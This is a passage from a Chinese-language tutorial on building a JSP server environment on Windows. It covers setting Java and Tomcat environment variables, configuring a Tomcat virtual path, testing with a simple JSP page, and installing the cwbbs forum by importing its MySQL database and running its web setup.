现在，我们已经把 JSP 环境搭建所用到的两个软件都安装完了。不过这个时候仍然不可以使用，必须设定一些环境变量之后才能使用 JSP 环境。下面为大家介绍，一定要认真仔细，有一点地方出差错，JSP 环境就搭建不成功。

首先，我们右击“我的电脑”，选择“属性”，进入“系统属性”页面，然后选择“高级”按钮，如图 1-96 所示。



图 1-96 进入系统属性的“高级”页面

点击“高级”我们就进入了系统属性的高级设置页面。进入之后，点击该页面下方的“环境变量”设置按钮，如图 1-96 所示。点击“环境变量”就可以对当前电脑的环境变量进行设置了，如图 1-97 所示。

不过这里设置环境变量有两个地方，一个是“Administrator 的用户变量”，另一个是“系统变量”。这里我们只需要对“系统变量”进行设置就可以了。



图 1-97 设置“系统变量”

下面进入最关键的时候了，我们需要对系统变量进行设置，设置过程分为四个步骤，分别是：

- 点击“环境变量”中的“新建”按钮，新建一个环境变量。在“变量名”中填入“CLASSPATH”；在“变量值”中填入“C:\Program Files\Java\jdk1.5.0_04\lib\tools.jar;C:\Program Files\Java\jdk1.5.0_04\lib\dt.jar;C:\Tomcat 5.0\common\lib\servlet-api.jar”。如图 1-98 所示，最后点击“确定”按钮即可。



图 1-98 设置 CLASSPATH 环境变量

- 点击“环境变量”中的“新建”按钮，再新建一个环境变量。在“变量名”中填入“JAVA_HOME”；在“变量值”中填入“C:\Program Files\Java\jdk1.5.0_04”。如图 1-99 所示，最后点击“确定”按钮即可。



图 1-99 设置 JAVA_HOME 环境变量

- 接下来不是新建环境变量，而是要修改“Path”这个环境变量。我们先在“环境变量”中找到“Path”环境变量，如图 1-100 所示。单击这个“Path”变量后，选择下面的“编辑”按钮即可进行修改。我们只需要在“变量值”后面加上“;C:\Program Files\Java\jdk1.5.0_04\bin;C:\Tomcat 5.0\bin”，如图 1-101 所示，然后点击“确定”按钮即可。



图 1-100 选择 Path 环境变量



图 1-101 修改 Path 环境变量

- 最后，我们要新建 Tomcat 的一个环境变量。点击“环境变量”中的“新建”按钮，再新建一个环境变量。在“变量名”中填入“TOMCAT_HOME”；在“变量值”中填入“C:\Tomcat 5.0”。如图 1-102 所示，最后点击“确定”按钮即可。



图 1-102 设置 TOMCAT_HOME 环境变量

这样，我们就把环境变量设置完了。之后，点击“环境变量”的“确定”按钮，最后再点击“系统属性”的“确定”按钮就全部完成了。

## 1.4.4 JSP环境的测试

这个时候，我们就把 JSP 服务器给搭建完了，现在就需要测试服务器是否安装成功了。不过在测试之前，必须要开启服务器。我们先进入 Tomcat 服务器的文件夹，再进入“bin”子文件夹，然后找到“startup.bat”，双击运行就可以启动 Tomcat 服务器了，如图 1-103 所示。



图 1-103 Tomcat 服务器被成功启动

启动完了之后，我们在浏览器中输入“http://localhost:8080”或者“http://127.0.0.1:8080”。之所以要加 8080，是因为我们在安装服务器的时候设定它的端口为 8080。我们可以把它设置成其他的端口，不过如果设置为 80，就不用再输入端口号了。输入之后，如果我们服务器安装成功了的话，就可以看到 Tomcat 服务器的那只猫了，如图 1-104 所示。



图 1-104 JSP 服务器安装成功

对于 Tomcat 我们也同样可以设定虚拟路径，不过需要我们手动添加。我们先进入 Tomcat 服务器的安装文件夹，然后进入 conf 子文件夹。然后，用记事本打开“server.xml”文件。利用记事本提供的查找功能查找“</Host>”关键字，如图 1-105 所示。



图 1-105 查找</Host>关键字

找到 </Host> 之后，我们就在它的前面加上下面的代码：

```xml
<Context path="/jsp" docBase="E:/jsp" debug="0"
    reloadable="true" crossContext="true"></Context>
```

然后保存，其中 docBase="E:/jsp" 就是虚拟目录指向的实际目录，而 path="/jsp" 就是我们配置的虚拟路径的名称，即把 E:/jsp 下的 jsp 文件夹设置为虚拟路径。当然，这两个变量我们是可以修改的，不过 docBase 代表着绝对路径，而 path 则代表虚拟路径。这里大家要特别注意路径中字母的大小写问题，这里是区分大小写的。

这样设置完了以后，我们就可以在 jsp 目录下发布网站了。例如我写了个最简单的 JSP 文件，代码如下：

```jsp
<%@ page contentType="text/html;charset=gb2312" %>
<html>
<head><title>JSP</title></head>
<body>
<%
out.println("The First JSP Page ");
%>
</body>
</html>
```

代码如果看不懂没有关系，在后面会给大家介绍。我们把该文件的代码保存在 E:/jsp 下，并命名为 firstjsp.jsp。然后在浏览器中输入 http://localhost:8080/jsp/firstjsp.jsp 之后，就可以看到输出的结果了，如图 1-106 所示。


图 1-106 JSP 虚拟路径设置成功

这样，我们的 JSP 服务器就全部安装好了。当然，对于 JSP 系统来说后台数据库是肯定有的。目前开源的 JSP 系统基本上都是 Mysql 和 SQL Server 两种，前面已经介绍了如何安装了，所以这里不再重复。

搭建好了平台后，就可以发布网站。这里我通过一个例子来介绍如何发布 JSP 网站，这里我们使用的系统是 cwbbs（云网论坛），并且我也把当前服务器的虚拟路径改为了 /cwbbs，绝对路径为 E:\cwbbs。

要安装 JSP 系统，首先就是将系统的数据库导入到 Mysql 中。Cwbbs 系统的数据库放在 E:\cwbbs\setup 下，名为 cwbbs.sql。要导入数据库的第一步就是要在 DOS 中跳转到 Mysql 数据库的 bin 下，即 C:\Program Files\MySQL\MySQL Server 5.0\bin，如图 1-107 所示。



图 1-107 跳转到 Mysql 数据库的 bin 子目录下

跳转到了这个目录下后，我们先输入 mysql -u root -p --default-character=utf8，然后回车后，先输入 Mysql 数据库的密码，再输入 source E:\cwbbs\setup\cwbbs.sql，如图 1-108 所示。



图 1-108 导入数据库

其中 E:\cwbbs\setup\cwbbs.sql 是系统数据库的绝对路径。我们回车之后就可以看到 cwbbs.sql 数据库被成功导入到 Mysql 数据库中了，如图 1-109 所示。



图 1-109 数据库被成功导入

数据库导入之后，我们就可以安装论坛了，其中论坛中的 setup 文件夹就是用来安装的。

我们在浏览器中输入 http://localhost:8080/cwbbs/setup 就可以看到 cwbbs（云网论坛）的安装界面，如图 1-110 所示。



图 1-110 cwbbs 安装界面

我们点击下一步进入安装，这里要求我们输入 Mysql 数据库的密码，如图 1-111 所示。我们输入完了之后就可以“连接测试”。



图 1-111 数据库的连接测试

如果连接成功的话则会显示“连接成功”，如图 1-112 所示。如果失败则显示连接失败，这里我们连接的是成功，所以点击“下一步”即可。



图 1-112 连接数据库成功

接着我们要设置当前论坛的环境变量了，选择完了点击“设置”即可，如图 1-113 所示。这里我们都是默认，点击“设置”后，如果成功就会弹出一个对话框，显示操作成功，如图 1-114 所示。



图 1-113 设置环境变量



图 1-114 设置变量成功

设置成功后，返回的页面就多了一个“进入论坛”的按钮了，如图 1-115 所示。



图 1-115 多了一个“进入论坛”的按钮

我们点击“进入论坛”后，就登录了论坛。这个时候，我们的论坛就成功地被发布出来，如图 1-116 所示。

